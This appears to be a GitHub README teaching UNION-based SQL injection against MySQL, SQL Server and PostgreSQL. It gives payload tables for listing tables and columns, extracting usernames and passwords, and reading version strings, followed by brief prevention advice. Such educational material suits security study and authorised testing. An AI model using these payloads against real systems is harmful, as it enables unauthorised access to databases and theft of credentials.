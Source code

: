 # SQL Injection Attack - Listing Database Contents on Non-Oracle Databases

This README provides a comprehensive guide on performing **SQL injection attacks** to list database contents (e.g., tables, columns, and data) on **non-Oracle databases** such as **MySQL**, **SQL Server**, and **PostgreSQL**. The guide also covers techniques for retrieving database version information and includes preventive measures against these attacks.

---

## Table of Contents
1. [Introduction](#introduction)
2. [SQL Injection in MySQL](#sql-injection-in-mysql)
   - [Listing Tables](#listing-tables)
   - [Listing Columns in a Table](#listing-columns-in-a-table)
   - [Retrieving Data from a Table](#retrieving-data-from-a-table)
   - [Retrieve Database Version](#retrieve-database-version)
3. [SQL Injection in SQL Server](#sql-injection-in-sql-server)
   - [Listing Tables](#listing-tables-1)
   - [Listing Columns in a Table](#listing-columns-in-a-table-1)
   - [Retrieving Data from a Table](#retrieving-data-from-a-table-1)
   - [Retrieve Database Version](#retrieve-database-version-1)
4. [SQL Injection in PostgreSQL](#sql-injection-in-postgresql)
   - [Listing Tables](#listing-tables-2)
   - [Listing Columns in a Table](#listing-columns-in-a-table-2)
   - [Retrieving Data from a Table](#retrieving-data-from-a-table-2)
   - [Retrieve Database Version](#retrieve-database-version-2)
5. [General SQL Injection Steps](#general-sql-injection-steps)
6. [Prevention](#prevention)

---

## Introduction

SQL Injection (SQLi) is a critical security vulnerability that allows attackers to manipulate SQL queries by injecting malicious code into user inputs. This guide will explore common SQL injection methods used to retrieve database information like tables, columns, and data from **non-Oracle** databases, including **MySQL**, **SQL Server**, and **PostgreSQL**. It will also explain how to list the database version using these methods and how to protect against SQL injection attacks.

---

## SQL Injection in MySQL

MySQL databases store metadata in the **`information_schema`** database. You can exploit SQL injection vulnerabilities to list database tables, columns, and retrieve sensitive data.

| **Action**                    | **SQL Injection Query**                                                                 |
|-------------------------------|-----------------------------------------------------------------------------------------|
| **Listing Tables**             | `' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = DATABASE() --`  |
| **Listing Columns in a Table** | `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' --` |
| **Retrieving Data from a Table** | `' UNION SELECT username, password FROM users --`                                        |
| **Retrieve Database Version**  | `' UNION SELECT version(), NULL --`                                                      |

---

## SQL Injection in SQL Server

SQL Server uses system views like **`sys.tables`** and **`sys.columns`** to store metadata. You can inject SQL queries to access this data.

| **Action**                    | **SQL Injection Query**                                                                  |
|-------------------------------|------------------------------------------------------------------------------------------|
| **Listing Tables**             | `' UNION SELECT name, NULL FROM sys.tables --`                                            |
| **Listing Columns in a Table** | `' UNION SELECT name, NULL FROM sys.columns WHERE object_id = OBJECT_ID('users') --`      |
| **Retrieving Data from a Table** | `' UNION SELECT username, password FROM users --`                                         |
| **Retrieve Database Version**  | `' UNION SELECT @@VERSION, NULL --`                                                       |

---

## SQL Injection in PostgreSQL

PostgreSQL stores its metadata in the **`pg_catalog`** schema. You can query this schema using SQL injection.

| **Action**                    | **SQL Injection Query**                                                                  |
|-------------------------------|------------------------------------------------------------------------------------------|
| **Listing Tables**             | `' UNION SELECT table_name, NULL FROM information_schema.tables WHERE table_schema = 'public' --` |
| **Listing Columns in a Table** | `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users' --` |
| **Retrieving Data from a Table** | `' UNION SELECT username, password FROM users --`                                          |
| **Retrieve Database Version**  | `' UNION SELECT version(), NULL --`                                                        |

---

## General SQL Injection Steps

Follow these general steps when performing SQL injection:

1. **Identify the Database Type**:
   - Use error-based techniques or SQL version retrieval commands like `@@VERSION` (SQL Server) or `VERSION()` (MySQL) to identify the database type.

2. **Determine the Number of Columns**:
   - Use `ORDER BY` clauses or error messages to determine the number of columns in the original query.
     - Example: `' ORDER BY 1 --`, `' ORDER BY 2 --`, etc.

3. **Use `UNION SELECT` to Retrieve Metadata**:
   - List all tables: 
     ```sql
     ' UNION SELECT table_name, NULL FROM information_schema.tables
     ```
   - List columns for a specific table:
     ```sql
     ' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'
     ```

4. **Retrieve Sensitive Data**:
   - Example: Retrieve data from the `users` table:
     ```sql
     ' UNION SELECT username, password FROM users --
     ```

---

## Prevention

SQL Injection attacks can be mitigated using several strategies:

### 1. **Use Parameterized Queries / Prepared Statements**
   - Ensure that user input is treated as data, not part of the SQL query, preventing SQL injection attacks.

### 2. **Input Validation**
   - Validate user input to ensure it meets expected formats. Reject inputs containing special characters like `'`, `--`, or `;`.

### 3. **Principle of Least Privilege**
   - Ensure that database user accounts used by applications have only the necessary privileges, limiting their potential impact.

### 4. **Implement Web Application Firewalls (WAFs)**
   - Use WAFs to detect and block common SQL Injection attacks.

### 5. **Error Handling**
   - Avoid revealing database error messages to end-users, as they can expose sensitive information about your database structure.

---

## Conclusion

SQL Injection is a critical security vulnerability that can lead to severe data breaches. Understanding how these attacks work and applying preventive measures is essential for securing your web applications and databases.

---

### Contributors

- **Md. Khairul Islam**: Author
